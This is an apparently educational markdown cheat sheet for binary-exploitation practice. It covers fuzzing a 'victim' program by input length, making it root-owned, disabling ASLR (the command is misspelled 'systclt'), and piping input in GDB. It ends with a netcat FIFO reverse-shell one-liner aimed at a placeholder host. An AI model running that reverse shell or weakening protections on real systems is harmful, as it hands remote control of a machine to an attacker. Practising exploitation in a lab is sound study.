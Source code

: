 # Some tips


## Shell

- Save some shell stuff:
  ```
  $ for i in $(seq 500 530); do echo "trying: ${i}";  ./victim $(printf "%0${i}x"); done
  ```
- for change ownership to test shellcoding:
  ```
   $ sudo chown root victim
   $ sudo chmod +x victim
  ```
- disabling ASLR for educational pourposes:
  ```
  $ sudo systclt -w kernel.randomize_va_space=0
  ```  

## GDB

- To run gdb with printf from bash [1](https://www.reddit.com/r/bash/comments/1cbqif7/send_a_program_receiving_piped_input_into_a/):
  ```
  ~$>gdb program.c
  (gdb) b *main
  (gdb) r < <(printf "some text"; printf "\xsomehex")
  ```
  
## Shellconection

- Shellcode to reverse connect:
  ```
  $mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x  5432 > /tmp/f

  ```



